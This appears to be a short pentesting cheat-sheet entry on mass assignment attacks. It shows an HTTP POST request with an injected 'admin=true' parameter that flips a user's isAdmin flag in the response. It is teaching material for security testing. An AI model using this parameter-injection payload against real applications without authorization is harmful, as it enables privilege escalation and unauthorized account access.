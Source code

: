 # Mass Assignment Attack

## Introduction
Occurs when an app allows a user to manually add parameters in an HTTP Request & the app process value of these parameters when processing the HTTP Request & it affects the response that is returned to the user. Usually occurs in Ruby on Rails / NodeJS

## How to exploit
- Normal request
```
POST /editdata HTTP/1.1
Host: target.com
...
username=daffa
```
The response
```
HTTP/1.1 200 OK
...
{"status":"success","username":"daffainfo","isAdmin":"false"}
```

- Modified Request 
```
POST /editdata HTTP/1.1
Host: target.com
...
username=daffa&admin=true
```

```
HTTP/1.1 200 OK
...
{"status":"success","username":"daffainfo","isAdmin":"true"}
```

## References
* [Pentester Academy](https://blog.pentesteracademy.com/hunting-for-mass-assignment-56ed73095eda)
